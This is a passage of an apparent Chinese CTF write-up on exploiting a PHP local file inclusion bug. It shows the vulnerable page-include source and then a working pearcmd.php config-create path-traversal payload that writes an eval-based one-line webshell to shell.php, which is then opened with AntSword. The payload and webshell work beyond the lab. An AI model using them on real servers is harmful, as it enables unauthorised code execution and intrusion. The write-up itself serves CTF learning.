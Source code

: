> 考点：pearcmd.php本地文件包含、SUID提权

下载附件，源码如下

```php
<?php require_once 'inc/header.php'; ?>
<?php require_once 'inc/sidebar.php'; ?>

  <!-- Content Wrapper. Contains page content -->

  <?php 
        if (isset($_GET['page'])) {
          $page ='pages/' .$_GET['page'].'.php';

        }else{
          $page = 'pages/dashboard.php';
        }
        if (file_exists($page)) {
          require_once $page; 
        }else{
          require_once 'pages/error_page.php';
        }
 ?>
  <!-- Control Sidebar -->
  <aside class="control-sidebar control-sidebar-dark">
    <!-- Control sidebar content goes here -->
  </aside>
  <!-- /.control-sidebar -->

 <?php require_once 'inc/footer.php'; ?>
```

可以看到有文件包含漏洞，将我们传参的值与php拼接
 （这里可以参考week3的include）

bp抓包，写入一句话木马

```php
?+config-create+/&page=../../../../../usr/local/lib/php/pearcmd&/<?=@eval($_POST['cmd']);?>+shell.php
```

![在这里插入图片描述](../../CTF_%25E7%25AC%2594%25E8%25AE%25B0%25E8%25AE%25B0%25E5%25BE%2597%25E8%25BD%25AC%25E7%25A7%25BB/web/%25E9%25A2%2598%25E7%259B%25AEwp+%25E6%2598%25A5%25E7%25A7%258B%25E4%25BA%2591%25E5%25A2%2583%25E6%25B8%2597%25E9%2580%258Fwp/assets/0b54975001784997b3d046c7e3960ed8.png)
 然后蚁剑连接
